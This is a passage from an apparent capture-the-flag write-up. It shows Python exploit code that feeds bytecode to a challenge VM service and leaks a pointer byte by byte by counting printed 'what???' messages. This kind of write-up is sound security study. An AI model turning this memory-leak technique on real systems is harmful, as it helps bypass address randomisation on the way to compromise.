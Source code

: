 So I ended up writing an assembler for this VM that supports labels and loops.
It would replace labels with a `nop` instruction.

{% highlight python %}
from assembler import *


def run_vm(prog, mem_count, msg):
    assembler = Assembler(prog)
    code = assembler.assemble(debug=False) 
    p.sendlineafter(b"Please input your code size:\n", b"%d" % len(code))
    p.sendlineafter(b"Please input your memory count:\n", b"%d" % mem_count)
    p.sendafter(b"Please input your code:\n", code)
    out = p.recvuntil(b"finish!\n")
    p.sendlineafter(b"continue?\n", msg)
    return out
{% endhighlight %}


I then wrote assembly code that increments a counter from zero in a loop until it becomes equal to one byte of a pointer.
In each loop, this program will hit a `nop` which will make the program print the string "what??".
And upon counting the number of these strings printed out, I can get the value of this one byte.

{% highlight python %}
def leak(p, mem_size, num_bytes):
    leak_byte = """
lq r0 0
push r0
li r3 {byte_idx}
push r3
shr
pop r3
push r3
li r1 0xff
push r1
and
pop r1
li r2 0x1
.loop
push r1
push r2
sub
pop r1
push r1
jnz .loop
hlt
    """
    leaked_bytes = []
    for x in range(num_bytes):
        prog = leak_byte.format(byte_idx=x*8)
        output = run_vm(prog, mem_size, b"B"*10).decode("utf-8").strip()
        leaked_byte = output.split("\n").count("what???")
        leaked_bytes = [leaked_byte] + leaked_bytes

    leaked_addr = 0
    for x in leaked_bytes:
        leaked_addr = (leaked_addr << 8) + x

    log.success(f"Leaked value : {hex(leaked_addr)}")
    return leaked_addr
{% endhighlight %}
